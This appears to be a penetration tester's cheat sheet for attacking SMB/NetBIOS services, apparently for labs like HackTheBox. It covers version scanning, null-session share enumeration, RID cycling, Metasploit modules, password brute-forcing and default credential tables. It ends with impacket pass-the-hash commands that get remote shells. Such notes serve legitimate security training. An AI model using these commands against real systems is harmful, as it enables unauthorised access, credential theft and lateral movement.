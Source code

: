 ```yaml
---
description: >-
  Grind through the list and pray that this often misconfigured service is still
  doing its vulnerable thang.
---
```


# Port 139, 445 : SMB/NetBIOS

**Versions**  
There are fairly significant differences between the versions of SMB, especially in the security realm.  As expected, v1 has extra routes to exploit, though this is often one of my favorite services to find, due to the many footholds available, the wealth of information and the path to exploit them is pretty easy.

SMB1 – Windows 2000, XP and Windows 2003.   
SMB2 – Windows Vista SP1 and Windows 2008   
SMB2.1 – Windows 7 and Windows 2008   
R2 SMB3 – Windows 8 and Windows 2012.  
  
There's a few methods you can use to get the SMB version:

```text
nmap --script="smb-os-discovery.nse" -v -p 139,445 10.10.10.14
Run wireshark or tcpdump, run smbmap -H <victim's IP>, follow the TCP stream of the SMB negotiation
 
```

**Tools to map the share, get users and other information**

```text
nbtscan -r 10.10.10.14
smbclient -N -L (TARGET IP)  [optional: -m SMB2, --no-pass -c 'recurse;ls'  to list recursively with smbclient]
nmblookup -A 10.10.10.14 [optional: -R (recursion) -W <workgroup name> -n <netbiosname>]
smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER) -m SMB2  [if you have a username]
smbclient --user=(TARGET USERNAME) --pw-nt-hash -m smb3 \\\\(TARGET IP ADDRESS)\\(TARGET SHARE)\\ (NTLM HASH)  [if you have an NTLM hash through impacket]
crackmapexec smb <IP> -u '' -p '' --shares  [no username] 
crackmapexec smb <IP> -u 'username' -p 'password' --shares [as guest] 
```

**Nmap**

```text
ls -la /usr/share/nmap/scripts/smb* 

nmap -v --script smb-os-discovery.nse -p 139,445 10.10.10.14 
nmap -v --script="smb-vuln*"  -p 139,445 10.10.10.14
nmap -v --script="smb*" -p 139,445 10.10.10.14
nmap -v --script="nbtstat.nse"  -p 139,445 10.10.10.14
nmap -sV -Pn -p 139,445    --script-args smbuser="<user>",smbpass="<password>" --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 
```

**RID Cycling**

```text
ridenum.py 10.10.10.88 500 50000 dict.txt 
msf > 
```

**Mounting SMB Shares**

```text
mount -t cifs -o username=user,password=password //<victim IP>/share /mnt/share 
smbclient -L //<IP>
smbclient //<IP>/IPC$ -N 
If share has a space in its name...
smbclient //<victim_ip>/<share\ name>  or smbclient //<victim_ip>/<"share name">

once mounted with smbclient, you can use "recurse ON", "prompt OFF" and "mget *" to download everything
```

**Metasploit Information Gathering Modules**

```text
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumusers_domain
use auxiliary/scanner/smb/smb_login
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_ms17_010
```

**Metasploit script that checks for various vulnerabilities and gathers information**

```text
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc 
```

**Other SMB enumerating and incinerating tools that I like:**   
[_**https://github.com/m8r0wn/nullinux**_](https://github.com/m8r0wn/nullinux)  
_****_[_**https://github.com/Raikia/SMBCrunch**_](https://github.com/Raikia/SMBCrunch)  
_****_[_**https://github.com/T-S-A/smbspider**_](https://github.com/T-S-A/smbspider)  
_****_[_**https://github.com/0v3rride/Enum4LinuxPy**_](https://github.com/0v3rride/Enum4LinuxPy)  
_****_[_**https://github.com/shirosaidev/sharesniffer**_](https://github.com/shirosaidev/sharesniffer)  
_****_[_**https://github.com/dirkjanm/krbrelayx**_](https://github.com/dirkjanm/krbrelayx)  
****

\*\*\*\*

**\(Oftentimes, port 111, RPC, will be open along with this service\)**

```text
rpcclient -U "" -N 10.10.10.14
nmap --script="rpc*" 10.10.10.14

```

**After getting a list of users through enum4linux or other means, you can try to bruteforce the password:**

```text
medusa -h <victim_ip> -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt <victim_ip> -vvvv 

```

**Common Credentials:**

|  |  |
| ---: | :--- |
| \(blank\) | \(blank\)  |
| guest  | \(blank\)  |
| Administrator, admin  | \(blank\), password, administrator, admin  |
| arcserve  | arcserve, backup  |
| tivoli, tmersrvd  | tivoli, tmersrvd, admin  |
| backupexec, backup  | backupexec, backup, arcada  |
| test, lab, demo  | password, test, lab, demo  |

**Search for exploits**

```text
msf> search type:exploit platform:windows target:2008 smb 
searchsploit microsoft smb 
findsploit smb linux
```

**The following information is from Hacktricks and the very excellent enumeration guide located there:**

**PSexec and smbexec**  
Both options will create a new service \(using \pipe\svcctl via SMB\) in the victim machine and use it to execute something \(psexec will upload an executable file to ADMIN$ share and smbexec will point to cmd.exe/powershell.exe and put in the arguments the payload --file-less technique--\). More info about [psexec ](https://book.hacktricks.xyz/windows/ntlm/psexec-and-winexec)and [smbexec](https://book.hacktricks.xyz/windows/ntlm/smbexec). In kali it is located on /usr/share/doc/python3-impacket/examples/ 

\#If no password is provided, it will be prompted 

```text
./psexec.py [[domain/]username[:password]@]<targetName or address> 
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash 
psexec \\192.168.122.66 -u Administrator -p 123456Ww 
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
```

_Using parameter-k you can authenticate against kerberos instead of NTLM_ 

​[**wmiexec**](https://book.hacktricks.xyz/windows/ntlm/wmicexec)**/dcomexec** 

Stealthily execute a command shell without touching the disk or running a new service using DCOM via port 135. In kali it is located on /usr/share/doc/python3-impacket/examples/ 

```text
#If no password is provided, it will be prompted 
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password 
./wmiexec.py -hashes LM:NT administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted 
```

Using parameter-k you can authenticate against kerberos instead of NTLM 

```text
#If no password is provided, it will be prompted 
./dcomexec.py [[domain/]username[:password]@]<targetName or address> 
./dcomexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted 
```

​[**AtExec**](https://book.hacktricks.xyz/windows/ntlm/atexec)**​** 

Execute commands via the Task Scheduler \(using \pipe\atsvc via SMB\). In kali it is located on /usr/share/doc/python3-impacket/examples/ 

```text
./atexec.py [[domain/]username[:password]@]<targetName or address> "command" 
./atexec.py -hashes <LM:NT> administrator@10.10.10.175 "whoami"
```

